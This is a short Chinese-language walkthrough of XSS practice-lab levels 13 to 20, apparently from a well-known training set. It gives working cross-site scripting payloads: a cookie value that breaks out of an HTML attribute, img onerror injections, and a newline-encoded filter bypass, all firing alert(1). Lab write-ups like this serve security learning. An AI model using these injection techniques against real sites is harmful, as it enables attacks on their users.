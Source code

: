 



## 13.

直接修改Cookie

```
Cookie: user=" type="button" onclick="alert(1)
```



## 14.

在线靶场无法显示上传按钮，不知道什么情况，直接改URL跳转到15题



后续发现可能是靶场太老，火狐也无法显示

但是看wp，说是改上传图片的exif信息来触发xss漏洞攻击

## 15.

```
'level1.php?name=test<img src=1 onerror=alert(1)>'
```





## 16.

```
<img%0Asrc=1%0Aonerror=alert(1)>
```



```
?keyword=<img%0Asrc=1%0Aonerror=alert(1)>
```



## 17.

xsf04.swf

后面四个都是使用flash的，需要安装flash才能有弹窗，flash就是swf文件，后面四道题都需要，这里就不做了。

## 18.

## 19.

## 20.

需要FFdec反编译xsf04.swf
